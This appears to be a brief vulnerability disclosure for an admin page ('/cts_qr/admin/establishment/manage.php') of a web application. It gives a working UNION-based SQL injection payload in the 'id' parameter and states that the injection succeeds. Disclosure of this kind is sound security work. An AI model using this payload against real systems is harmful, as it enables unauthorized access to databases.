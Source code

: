 BUG_Author: TangJun

Vulnerability url: /cts_qr/admin/establishment/manage.php?id.

Payload: id=-3 union all select null,null,concat(0x66676869,0x3536373839),null,null,null,null-- -

The union query succeeds, proving that SQL injection vulnerability exists

![image](https://github.com/BacteriaJun/cve/blob/main/sql.png)
